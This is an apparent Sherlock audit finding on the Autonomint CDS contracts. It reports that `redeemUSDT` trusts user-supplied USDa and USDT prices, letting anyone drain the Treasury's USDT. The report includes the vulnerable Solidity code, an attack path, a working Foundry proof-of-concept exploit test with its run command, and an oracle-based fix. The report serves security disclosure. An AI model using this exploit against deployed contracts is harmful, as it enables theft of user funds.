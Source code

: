 Shallow Coral Kookaburra

High

# `usdaPrice` and `usdtPrice` are parameters used to calculate redeemable amount of `USDT` that allow anyone to drain the vault

### Summary

The `CDS::redeemUSDT` function receives as parameters the price of `USDa` and `USDT` which are directly used in the calculation of the amount of `USDT` that have to be sent to the user. As prices are controlled by user, anyone can drain all `USDT` in `Treasury`.

### Root Cause

The `CDS::redeemUSDT` function receives the following parameters:
[CDS.sol#L506-L510](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506-L510)
```solidity
function redeemUSDT(
    uint128 usdaAmount,
    uint64 usdaPrice,
    uint64 usdtPrice
) external payable nonReentrant whenNotPaused(IMultiSign.Functions(6)) {
```
Then it calls the `CDSLib::redeemUSDT` function with those parameters. In `CDSLib::redeemUSDT`, it is calculated how much `USDT` the user will receive in exchange of the `usdaAmount` that will redeem. The issue is that `usdaPrice` and `usdtPrice` (introduced by the user) are values that directly determines how much `USDT` will be sent:
[CDSLib.sol#L382-L418](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L382-L418)
```solidity
    function redeemUSDT(
        CDSInterface.Interfaces memory interfaces,
        uint256 burnedUSDaInRedeem,
        uint128 usdaAmount,
        uint64 usdaPrice,
        uint64 usdtPrice
    ) external returns (uint256) {
        // CHeck the usdaAmount is non zero
        if (usdaAmount == 0) revert CDSInterface.CDS_NeedsMoreThanZero();
        // Check the user has enough usda balance
        if (interfaces.usda.balanceOf(msg.sender) < usdaAmount)
            revert CDSInterface.CDS_Insufficient_USDa_Balance();
        // Increment burnedUSDaInRedeem
        burnedUSDaInRedeem += usdaAmount;
        // GET the omnichain data
        IGlobalVariables.OmniChainData memory omniChainData = interfaces.globalVariables.getOmniChainData();
        // Increment burnedUSDaInRedeem
        omniChainData.burnedUSDaInRedeem += usdaAmount;
        // burn usda
        bool transfer = interfaces.usda.burnFromUser(msg.sender, usdaAmount);
        if (!transfer) revert CDSInterface.CDS_TransferFailed(IBorrowing.AssetName.USDa);
        // calculate the USDT USDa ratio
        uint128 usdtAmount = ((usdaPrice * usdaAmount) / usdtPrice);
        
        interfaces.treasury.approveTokens(IBorrowing.AssetName.TUSDT, address(interfaces.cds), usdtAmount);
        // Transfer usdt to user
        bool success = interfaces.usdt.transferFrom(
            address(interfaces.treasury),
            msg.sender,
            usdtAmount
        );
        if (!success) revert CDSInterface.CDS_TransferFailed(IBorrowing.AssetName.TUSDT);
        
        interfaces.globalVariables.setOmniChainData(omniChainData);
        
        return burnedUSDaInRedeem;
    }
```


### Internal pre-conditions

None

### External pre-conditions

None

### Attack Path

- Attacker buys some `USDa`: a tiny amount is enough
- Attacker calls `CDS::redeemUSDT` with malicious prices

### Impact

`USDT` from `Treasury` drained

### PoC

Add the following PoC to `test/foundry/Borrowing.t.sol`:

```solidity
    function test_PoC_DrainOfTreasuryInRedeemUSDT() public {
        uint256 ETH = 1;
        uint24 ethPrice = 388345;
        uint8 strikePricePercent = uint8(IOptions.StrikePrice.FIVE);
        uint64 strikePrice = uint64(ethPrice + (ethPrice * ((strikePricePercent * 5) + 5)) / 100);
        uint256 amount = 10 ether;

        uint128 usdtToDeposit = uint128(contractsB.cds.usdtLimit());
        uint256 liquidationAmount = usdtToDeposit / 2;

        // deposit in CDS so there is back funds for the USDa
        address cdsDepositor = makeAddr("depositor");

        {
            // deposit USDT limit
            vm.startPrank(cdsDepositor);

            contractsB.usdt.mint(cdsDepositor, usdtToDeposit);
            contractsB.usdt.approve(address(contractsB.cds), usdtToDeposit);
            vm.deal(cdsDepositor, globalFee.nativeFee);
            contractsB.cds.deposit{value: globalFee.nativeFee}(
                usdtToDeposit, 0, true, uint128(liquidationAmount), 150000
            );
  
            vm.stopPrank();
        }

        {
            // so user gets usda to redeem
            vm.startPrank(USER);
            vm.deal(USER, globalFee.nativeFee + amount);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amount}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );

            vm.stopPrank();
        }

        {
            vm.startPrank(USER);

            uint128 usdaAmount = 1e6; // 1 usda (it could be just 1 wei)
            uint64 usdaPrice = 10000; // as usdtPrice is 1, usdaPrice is the amount that will be received of USDT
            uint64 usdtPrice = 1;

            uint256 amountUsdtBefore = contractsB.usdt.balanceOf(USER);

            vm.deal(USER, globalFee.nativeFee);
            contractsB.usda.approve(address(contractsB.cds), usdaAmount);
            contractsB.cds.redeemUSDT{value: globalFee.nativeFee}(usdaAmount, usdaPrice, usdtPrice);

            uint256 amountUsdtAfter = contractsB.usdt.balanceOf(USER);

            assertEq(amountUsdtBefore + (usdaPrice * usdaAmount), amountUsdtAfter);

            vm.stopPrank();
        }
    }
```

To run the test:
```bash
forge test --fork-url https://mainnet.mode.network/ --mt test_PoC_DrainOfTreasuryInRedeemUSDT -vvv
```

### Mitigation

`usdaPrice` and `usdtPrice` are values to be fetched from the Oracles not from user input.